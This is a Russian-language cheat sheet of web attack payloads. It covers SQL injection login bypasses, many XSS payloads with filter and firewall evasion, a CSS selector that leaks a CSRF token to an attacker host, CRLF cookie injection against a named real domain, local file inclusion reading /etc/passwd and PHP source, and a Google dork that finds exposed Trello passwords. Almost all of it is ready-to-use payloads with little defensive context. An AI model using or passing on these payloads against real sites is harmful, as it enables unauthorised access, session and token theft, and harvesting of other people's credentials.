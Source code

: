**SQL**
a - (Строковой входящий параметр) 
php?id=1'
php?id=1' —
b - (Числовой входящий параметр)
php?id=1 blablabla
php?id=-1
c - (Авторизация)
Под ником 'Admin' нам нужно вписать вместо него что то наподобие этого Admin' — 
Уязвимость в поле 'pass'
123' OR login='Admin' — 
d - (Оператор LIKE)
Вместо пароля просто ввести "%"

2. XSS
'":;<>/\[]<script><h1>
''`;!--"<XSS>=&{()}

< - &lt;
> - &gt;
& - &amp;
" - &quot;
' - &#039;

: - %3A
/ - %2F

<script>alert(5)</script>

"><script>alert(5)</script>

;alert()

<a href="javascript:alert(1)">

NULL <scri%00pt>alert()</scri%00pt>

TAB <svg+src="jav%09ascript:alert(1)">

Newline <script>//>%0Aalert(1);</script>

Carriage Return <script>//>%0Dalert(1);</script>

Spaces < s c r i p t > p r o m t ( 1 ) < / s c r i p t >

/#text= NAME'); alert(document.cookie+'

reflected XSS - /?report=javascript
%3aalert(document.domain)

php?email='-alert(document.domain)-'

<script>\u0061\u006C\u0065\u0072\u0074(I)</script>

<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />

"><img src=x onerror=prompt(1);>

<script>a="get";b="URL";c="javascript:";d="alert(1);";eval(a+b+c+d);</script>

<form action="javascript:alert(document.location);"><input type="submit" /></form>

<iframe src="//www.youtube.com/embed/Ik9fCVkKeLg" frameborder="0" style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">

<div style="background:url('javascript:alert(1)')">

input[name=csrf_token][value=^a]{background-image:url('http://attack.com/log.php?a');}

XSS с помощью css:
<style>img{background-image:url('javascript:alert(1)')}</style>

Обход фаерволов:
<style>*{background-image:url('\6A\61\76\61\73\63\72\69\70\74\3A\61\6C\65\72\74\28\6C\6F\63\61\74\69\6F\6E\29')}</style>

Polyglot XSS - Mathias Karlsson
" onclick=alert(document.cookie)//<button ‘ onclick=alert(document.cookie)//> */ alert(1)//

3. Authentication bypass
В процессе аутентификации при доступе к веб-сайту, посетив ссылку для отмены подписки.
PHPSESSID=xxx;

4. Link filter protection bypass
?url=site%E3%80%82com

5. CRLF Injection
GET /qwerty%0ASet-Cookie:%20test=qwerty;domain=.beepcar.ru HTTP/1.1

6. robots.txt
Disallow - Запрет доступа всех роботов 
Allow - Разрешает доступ к определенной части ресурса

7. LFI
/index.php?file=/../../../../../../etc/passwd 

file=/../../../../../../etc/passwd.php%00 

file=/../../../../../../etc/passwd%00.php 

index.txt при условии, что приписывается окончание .php 
index.txt/././././../...«(100-10)/2 раз».../././ 

php://filter/convert.base64-encode/resource=index 
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index

8. google dork 
«site:trello.com AND intext:@gmail\.com AND intext:password»
